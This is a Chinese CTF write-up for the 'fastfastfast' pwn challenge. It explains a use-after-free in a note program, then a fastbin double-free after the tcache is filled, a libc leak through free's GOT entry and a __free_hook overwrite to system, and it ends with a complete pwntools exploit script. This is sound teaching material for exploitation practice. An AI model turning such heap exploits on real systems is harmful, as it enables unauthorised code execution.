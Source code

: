 ```yaml
---
title: '[XYCTF] fastfastfast'
date: 2024-08-17 13:00:00 +0800
categories: [ctf,pwn]
tags: [uaf,fast_bin_attack,tcache,leak_libc]
---
```


```shell
[*] '/home/bamuwe/fastfastfast/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3fd000)
```

> $ checksec ./vuln

```shell
1. create note
2. delete note
3. show content
>>>
```

> $ ./vuln

```c
void __cdecl delete()
{
  unsigned int idx; // [rsp+Ch] [rbp-14h] BYREF
  unsigned __int64 v1; // [rsp+18h] [rbp-8h]

  v1 = __readfsqword(0x28u);
  puts("please input note idx");
  __isoc99_scanf("%u", &idx);
  if ( idx <= 0xF )
    free(note_addr[idx]);
  else
    puts("idx error");
}
```

> delete()漏洞函数,没有清除指针

```python
def add(idx,content):
    io.sendlineafter(b'>>>',b'1')
    io.sendlineafter(b'idx\n',str(idx))
    io.sendlineafter(b'content\n',content)
    
def free(idx):
    io.sendlineafter(b'>>>',b'2')
    io.sendlineafter(b'idx\n',str(idx))
    
def show(idx):
    io.sendlineafter(b'>>>',b'3')
    io.sendlineafter(b'idx\n',str(idx))
```

> 交互函数

程序逻辑:

1. `add()`堆块大小固定`0x71`
2. `free()`后没有清空指针

利用思路:

1. 填满`tcache_bin`构造`fast_bin_attack`,将堆块放在原来有`libc_addr`的地方,泄露出`libc_addr`

   ```python
   for i in range(9):
       add(i,b'a')
   
   for i in range(7):
       free(i)
   free(7)
   free(8)
   free(7)
   ```

   ![image-20240503134919203](../assets/img/old_imgs/image-20240503134919203.png)

   要利用`fastbin_attack`要先把`tcachebin`中的堆块利用

   ```python
   for i in range(7):
       add(i,b'a')
   ```

   ![image-20240503135100011](../assets/img/old_imgs/image-20240503135100011.png)

   ```python
   add(7,p64(0x4040A8))
   ```

   修改`fd`为目标地址,关于这个地址后文说明

   ![image-20240503135226136](../assets/img/old_imgs/image-20240503135226136.png)

   再申请三个堆块就可以得到目标`chunk`

   ```python
   add(8,b'a')
   add(9,b'b')
   add(10,p64(0)*3+p64(elf.got['free']))   #?
   show(0)
   #leak_libc
   free_addr = u64(io.recv(6).ljust(8,b'\x00'))
   lib_base = free_addr-lib.sym['free']
   free_hook_addr = lib_base+lib.sym['__free_hook']
   sys_addr = lib_base+lib.sym['system']
   success(hex(free_addr))
   success(f'free_hook_addr=>{hex(free_hook_addr)}')
   ```

   得到`libc`这里`p64(0)*3+p64(elf.got['free'])`应该是堆块结构有关

2. 修改`__free_hook`地址上的内容为`system`地址,构造`system(/bin/sh)`,得到`shell`

   ```python
   for i in range(9):
       add(i,b'/bin/sh\x00')
   for i in range(7):
       free(i)
   free(7)
   free(8)
   free(7)
   
   for i in range(7):
       add(i,b'a')
   add(7,p64(free_hook_addr))
   add(8,b'a')
   add(9,b'/bin/sh\x00')
   add(10,p64(sys_addr))
   free(9)
   ```

   利用手法同上

关于地址`0x4040A8`:

这是存贮堆块列表的地址,即变量`note_addr`的地址,覆盖其上堆块内容,再打印出来

![image-20240503140252580](../assets/img/old_imgs/image-20240503140252580.png)

exp:

```python
#GNU C Library (Ubuntu GLIBC 2.31-0ubuntu9.7) stable release version 2.31.
from pwn import *
context.terminal = ["tmux", "splitw", "-h"]
context.log_level = 'debug'
io = gdb.debug('./vuln','b *0x401564')
# io = remote('gz.imxbt.cn',20788)
elf = ELF('./vuln')
lib = ELF('./libc-2.31.so')

def add(idx,content):
    io.sendlineafter(b'>>>',b'1')
    io.sendlineafter(b'idx\n',str(idx))
    io.sendlineafter(b'content\n',content)
    
def free(idx):
    io.sendlineafter(b'>>>',b'2')
    io.sendlineafter(b'idx\n',str(idx))
    
def show(idx):
    io.sendlineafter(b'>>>',b'3')
    io.sendlineafter(b'idx\n',str(idx))
    
for i in range(9):
    add(i,b'a')

for i in range(7):
    free(i)
free(7)
free(8)
free(7)

for i in range(7):
    add(i,b'a')

add(7,p64(0x4040A8))
add(8,b'a')
add(9,b'b')
add(10,p64(0)*3+p64(elf.got['free']))   #?
show(0)
#leak_libc
free_addr = u64(io.recv(6).ljust(8,b'\x00'))
lib_base = free_addr-lib.sym['free']
free_hook_addr = lib_base+lib.sym['__free_hook']
sys_addr = lib_base+lib.sym['system']
success(hex(free_addr))
success(f'free_hook_addr=>{hex(free_hook_addr)}')

for i in range(9):
    add(i,b'/bin/sh\x00')
for i in range(7):
    free(i)
free(7)
free(8)
free(7)

for i in range(7):
    add(i,b'a')
add(7,p64(free_hook_addr))
add(8,b'a')
add(9,b'/bin/sh\x00')
add(10,p64(sys_addr))
free(9)

io.interactive()
```

